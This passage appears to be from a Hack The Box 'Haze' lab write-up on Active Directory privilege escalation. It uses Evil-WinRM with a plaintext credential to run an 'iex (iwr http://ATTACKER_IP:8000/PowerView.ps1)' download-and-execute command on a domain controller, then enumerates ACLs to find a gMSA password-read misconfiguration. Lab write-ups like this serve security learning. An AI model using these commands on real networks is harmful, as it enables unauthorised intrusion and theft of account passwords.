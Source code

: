 A Python web server was started on Kali to share `PowerView.ps1`.
```
fcoomans@kali:~/htb/haze$ python -m http.server -d www
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`PowerView.ps1` was used to check if the `gMSA_Managers` group could had any ACE rights to other AD Objects.
`gMSA_Managers` can manipulate the `ms-DS-GroupMSAMembership` ACE on the Group Managed Service Account (gMSA) `CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb`.
The `ms-DS-GroupMSAMembership` ACE allows members to view the NTLM password for the gMSA.
gMSA passwords are 240 bytes long and is changed automatically every 30 days by AD server.
This misconfiguration can allow an attacker to add an account to the gMSA and then get the NTLM password.
```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> klist

Current LogonId is 0:0x70df000

Cached Tickets: (0)
*Evil-WinRM* PS C:\Users\mark.adams\Documents> $pass = ConvertTo-SecureString 'Ld@p_Auth_Sp1unk@2k24' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\mark.adams\Documents> $cred = New-Object System.Management.Automation.PSCredential('HAZE\mark.adams', $pass)
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Invoke-Command -ComputerName DC01 -Credential $cred -ScriptBlock { iex (iwr http://ATTACKER_IP:8000/PowerView.ps1 -UseBasicParsing); $sid = Convert-NameToSid "gMSA_Managers"; Get-ObjectAcl -ResolveGUIDs |Where-Object { $_.SecurityIdentifier -eq $sid } }


AceQualifier           : AccessAllowed
ObjectDN               : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-DS-GroupMSAMembership
ObjectSID              : S-1-5-21-323145914-28650650-2368316563-1111
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-323145914-28650650-2368316563-1107
AccessMask             : 32
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
PSComputerName         : DC01
RunspaceId             : a5cb6670-5498-4b09-a591-223132e46cf6

AceType               : AccessAllowed
ObjectDN              : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
ActiveDirectoryRights : ReadProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : S-1-5-21-323145914-28650650-2368316563-1111
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-323145914-28650650-2368316563-1107
AccessMask            : 131092
AuditFlags            : None
AceFlags              : None
```
